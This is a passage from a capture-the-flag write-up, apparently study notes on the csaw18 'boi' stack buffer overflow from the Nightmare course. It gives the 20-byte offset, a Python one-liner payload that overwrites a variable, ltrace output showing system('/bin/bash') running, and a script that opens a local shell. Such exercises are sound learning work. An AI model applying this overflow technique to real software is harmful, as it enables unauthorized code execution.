 ```sh
```

- So the offset is 20 bytes, after that whatever we enter gets filled right in `target_variable`.
- So to craft our exploit:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41" * 20 + b"\xee\xba\xf3\xca")' | ./boi
Are you a big boiiiii??
```

- Seems like nothing happend?
- But piping the last command into `ltrace ./boi` shows that `/bin/bash` actually gets executed:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41" * 20 + b"\xee\xba\xf3\xca")' | ltrace ./boi
__libc_start_main(0x400641, 1, 0x7fff0b0d4028, 0x4006e0 <unfinished ...>
puts("Are you a big boiiiii??"Are you a big boiiiii??
)               = 24
read(0, "AAAAAAAAAAAAAAAAAAAA\356\272\363\312", 24) = 24
system("/bin/bash" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                        = 0
+++ exited (status 0) +++
```

- I've wrote `expl.py` to automate this process, and I can see that I'm getting the shell properly:


```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ python3 expl.py
[+] Starting local process './boi': pid 5482
[*] Switching to interactive mode
Are you a big boiiiii??
$ whoami
noobuntu
```

- So the goal was to pop a shell after all, and that's how I did it.


---

#### Sources

1. https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows/04-bof_variable/csaw18_boi
